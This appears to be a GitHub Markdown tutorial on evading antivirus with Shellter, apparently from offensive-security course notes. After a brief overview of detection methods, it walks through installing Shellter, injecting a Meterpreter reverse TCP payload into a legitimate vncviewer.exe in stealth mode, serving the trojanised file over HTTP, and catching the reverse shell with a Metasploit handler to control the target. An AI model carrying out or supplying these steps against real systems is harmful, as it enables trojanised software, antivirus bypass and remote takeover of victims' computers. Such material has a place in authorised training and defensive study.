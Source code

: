 ## AV Evasion With Shellter

### Defense Evasion

Defense Evasion consists of techniques that adversaries use to avoid detection thoroughout their compromise. Techiques used for defense evasion include uninstalling/disabling security software or **obfuscating/encrypting** data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. -MITRE 

### AV Detection Methods

AV software will typically utilize signature, heuristic and behaviour based detection.

1. Signature based detection - An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database.

We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.

2. Heuristic-based detection - Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns withing the code or program calls.
3. Behaviour based detection - Relies on identifying malware by monitoring it's behaviour (Used for newer strains of malware).

### AV Evasion Techniques

**On-disk Evasion Techniques**
- Obfuscation - Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
- Encoding - Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format.
- Packing - Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature.
- Crypters - Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub

**In-Memory Evasion Techniques**
- Focuses on manipulation of memory and does not write files to disk.
- Injects payload into a process by leveraging various Windows APIs.
- Payload is then executed in memory in a seperate thread.

## Demo: AV Evasion With Shellter

www.shellterproject.com

## Demo: Bypassing Antivirus with Shellter

### Step-by-Step Process

### Step 1: Installing Shellter and Wine32

Before we begin, we need to install **Shellter** and the **Wine32** package to support the execution of Windows programs on **Kali Linux**.

Install **Shellter**:

```bash
sudo apt-get install shellter -y
```

Enable support for 32-bit architecture:

```bash
sudo dpkg --add-architecture i386
```

Install **Wine32**:

```bash
sudo apt-get install wine32
```

### Step 2: Copy the Executable File

We need a legitimate Windows executable file to inject our payload into. In this case, we use **vncviewer.exe**, which can be found in the following directory:

```bash
cp /usr/share/windows-binaries/vncviewer.exe /home/kali/Desktop/AVBypass/
```

### Step 3: Starting Shellter

Navigate to the **Shellter** directory and run **Shellter** using **Wine**:

```bash
cd /usr/share/windows-resources/shellter
sudo wine shellter.exe
```

### Step 4: Configuring Shellter

When **Shellter** starts, it will ask for the **mode** you want to use. We will use **Automatic Mode** by entering `A` for automatic:

```bash
A
```

Next, provide the **path** to the executable file you want to inject the payload into:

```bash
/home/kali/Desktop/AVBypass/vncviewer.exe
```

Enable **Stealth Mode** to bypass AV detection:

```bash
y
```

Choose the type of payload injection. We will select **L** for a **list of payloads**:

```bash
L
```

Choose payload `1`, which is a **Meterpreter reverse TCP payload**.

### Step 5: Setting Payload Options

Now, set the **LHOST** (your attacker's IP address, typically your Kali machine's IP address) and **LPORT** (the port on which you want to receive the connection):

- Set **LHOST** to your network interface, in this case, **eth1**.
- Set **LPORT** to 1234.

### Step 6: Starting the HTTP Server

Next, we need to serve the payload to the target. Set up a **Python web server** to serve the file:

Open a new terminal tab:

```bash
cd ~/Desktop/AVBypass
sudo python3 -m http.server 80
```

This will serve the **vncviewer.exe** payload from the **AVBypass** directory on port **80**.

### Step 7: Setting Up the Metasploit Handler

Go back to the terminal where **Metasploit** is running. We need to set up a **reverse shell handler** to catch the connection from the target system when the payload is executed.

Start **Metasploit**:

```bash
msfconsole
```

Use the **multi/handler** module to set up a reverse shell handler:

```bash
use multi/handler
```

Set the payload to match the one you selected in **Shellter**:

```bash
set payload windows/meterpreter/reverse_tcp
```

Set the **LHOST** and **LPORT** to the same values used in **Shellter**:

```bash
set lhost eth1
set lport 1234
```

Run the handler:

```bash
run
```

### Step 8: Executing the Payload on the Target

Now, transfer the **vncviewer.exe** file to the target system and execute it. Once executed, the **reverse shell** will connect back to your **Kali** machine, and you will gain a **Meterpreter session**.

### Step 9: Post-Exploitation

Once the payload is executed, you will receive a **Meterpreter session** on your **Kali** machine. You can verify this by checking the session in **Metasploit**:

```bash
sessions
```

Interact with the session:

```bash
sessions -i [sessionID]
```

You now have control over the target system and can perform further post-exploitation tasks.

### Conclusion

What we accomplished:
- Used **Shellter** to inject a **Meterpreter reverse TCP** payload into a legitimate **vncviewer.exe** file.
- Configured **Shellter** in **Stealth Mode** to bypass AV detection.
- Set up a **Metasploit** handler to catch the reverse shell connection.
- Successfully executed the payload on the target system and gained a **Meterpreter session**.

This demo demonstrates how to evade antivirus software using **Shellter** to inject malicious payloads into legitimate executables, allowing you to establish a reverse shell on the target system.
